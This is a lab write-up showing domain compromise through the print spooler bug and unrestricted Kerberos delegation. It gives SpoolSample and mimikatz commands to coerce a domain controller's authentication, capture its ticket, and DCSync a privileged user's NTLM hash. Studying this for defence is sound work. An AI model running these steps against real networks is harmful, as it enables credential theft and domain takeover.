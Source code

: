 # Domain Compromise via DC Print Server and Kerberos Delegation

This lab demonstrates an attack on Active Directory Domain Controller \(or any other host to be fair\) that involves the following steps and environmental conditions:

* Attacker has to compromise a system that has an unrestricted kerberos delegation enabled.
* Attacker finds a victim that runs a print server. In this lab this happened to be a Domain Controller.
* Attacker coerces the DC to attempt authenticating to the attacker controlled host which has unrestricted kerberos delegation enabled. 
  * This is done via RPC API  [`RpcRemoteFindFirstPrinterChangeNotificationEx`](https://msdn.microsoft.com/en-us/library/cc244813.aspx) that allows print clients to subscribe to notifications of changes on the print server.
  * Once the API is called, the DC attempts to authenticate to the compromised host by revealing its TGT to the attacker controlled compromised system.
* Attacker extracts `DC01's` TGT from the compromised system and impersonates the DC to carry a DCSync attack and dump domain member hashes.

This lab builds on [Domain Compromise via Unrestricted Kerberos Delegation](domain-compromise-via-unrestricted-kerberos-delegation.md)

## Execution

Our environment for this lab is:

* ws01 - attacker compromised host with kerberos delegation enabled \(attacker, server\)
* dc01 - domain controller running a print service \(victim, target\)

We can check if a spool service is running on a remote host like so:

```text
ls \\dc01\pipe\spoolss
```

![](../../.gitbook/assets/image%20%28250%29.png)

If the spoolss was not running, we would receive an error.

Another way to check if the spoolss is running on a remote machine is:

![](../../.gitbook/assets/image%20%28445%29.png)

Now, after compiling the amazing PoC [SpoolSample](https://github.com/leechristensen/SpoolSample) by [@tifkin\_](https://twitter.com/tifkin_), we execute it with two arguments `target` and `server` \(DC with spoolss running on it\):

```csharp
.\SpoolSample.exe dc01 ws01
```

![](../../.gitbook/assets/screenshot-from-2018-10-31-23-32-34.png)

We are shown a message that the target attemped authenticating to our compromised system, so let's check if we can retrieve DC01 TGT:

```csharp
mimikatz # sekurlsa::tickets
```

![](../../.gitbook/assets/screenshot-from-2018-10-31-23-33-49.png)

We indeed got a TGT for DC01$ computer!

With this, we can make our compromised system `ws01$` appear like a Domain Controller and extract an NTLM hash for the user `offense\spotless` which we know has high privileges in the domain:

```csharp
mimikatz # lsadump::dcsync /domain:offense.local /user:spotless
```

![](../../.gitbook/assets/screenshot-from-2018-10-31-23-43-32.png)

The above clearly shows the attack was successful and an NTLM hash for the user spotless got retrieved -  get cracking or passing it now.

## Mitigation

For mitigations, see [Domain Compromise via Unrestricted Kerberos Delegation](domain-compromise-via-unrestricted-kerberos-delegation.md#mitigation) mitigations section.

## References

{% embed url="https://github.com/leechristensen/SpoolSample" %}

{% embed url="https://adsecurity.org/?p=4056" %}

{% embed url="https://adsecurity.org/?p=2053" %}

